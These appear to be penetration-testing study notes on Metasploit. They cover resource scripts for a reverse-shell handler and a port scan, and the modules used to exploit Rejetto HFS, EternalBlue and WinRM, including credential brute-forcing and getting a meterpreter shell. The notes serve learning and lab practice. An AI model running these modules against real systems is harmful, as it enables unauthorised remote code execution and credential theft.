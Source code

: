 ### Resource Scripts for automation

`/usr/share/metasploit-framwork/scripts/resource` - path for sample scripts

Creating for ourselves:

- `nano handler.rc`
    - `use multi/handler`
    - `set payload ….`
    - `set lhost ….`
    - `set lport ….`
    - `run`
- `msfconsole -r handler.rc` - automatically starts to set up a handler

OR

- `msfconsole -q`
- `msf6 > resource handler.rc`

Setting inside of MSF:

- `msf6 > use auxiliary/scanner/portscan/tcp`
- `msf6 > set rhosts …`
- `msf6 > run`
- `^C`
- `msf6 > makerc ~/Documents/portscan.rc`

## Exploitation

### Windows

### HFS

HFS is an HTTP File Server used for file sharing.

Rejetto HFS is a popular web server for sharing files, and Rejetto v2.3 is vulnerable to **RCE**.

- `msf6 > use rejetto_hfs_exec`

### EternalBlue

Vulnerability in SMBv1, takes advantage of buffer overflow, then a payload is executed for **RCE**

- `msf6 > use smb_ms17_010` - for checking
- `msf6 > use ms17_010_eternalblue` - for exploitation (this module also checks)

### WinRM

WinRM (Windows Remote Management) tool is used for facilitating remote access with Windows hosts, uses credentials for authentication. (5985/5986/TCP (HTTPS)) 

- `msf6 > use winrm_auth_methods` - checking if there is a winrm service
- `msf6 > use winrm_login` - brute-forcing credentials (`crackmapexec` can also be used)
- `msf6 > use winrm_cmd` - winrm command runner
- `msf6 > use winrm_script_exec` - for meterpreter shell (`evil-winrm` can also be used)
    - `msf6 > set FORCE_VBS true`
    